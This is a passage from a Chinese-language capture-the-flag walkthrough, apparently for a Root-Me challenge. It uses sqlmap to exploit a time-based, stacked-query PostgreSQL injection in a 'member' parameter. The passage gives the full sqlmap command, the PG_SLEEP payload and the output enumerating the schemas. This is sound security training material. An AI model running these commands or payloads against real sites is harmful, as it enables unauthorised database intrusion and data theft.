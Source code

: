 因为已经知道是延时注入，所以在使用 sqlmap 时需要添加延时时常参数 `--time-sec`。

------------


### 获得所有数据库模式名称

首先通过 sqlmap 的 `--dbs` 参数查询所有库名：

```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.3.23#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:48:22 /2019-03-17/

[09:48:22] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[09:48:23] [INFO] resuming back-end DBMS 'postgresql'
[09:48:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[09:48:24] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[09:48:24] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[09:48:24] [INFO] fetching database (schema) names
[09:48:24] [INFO] fetching number of databases
[09:48:24] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:48:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
3
[09:48:59] [INFO] retrieved: information_schema
[09:52:35] [INFO] retrieved: pg_catalog
[09:54:43] [INFO] retrieved: public
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

[09:55:56] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 09:55:56 /2019-03-17/
```
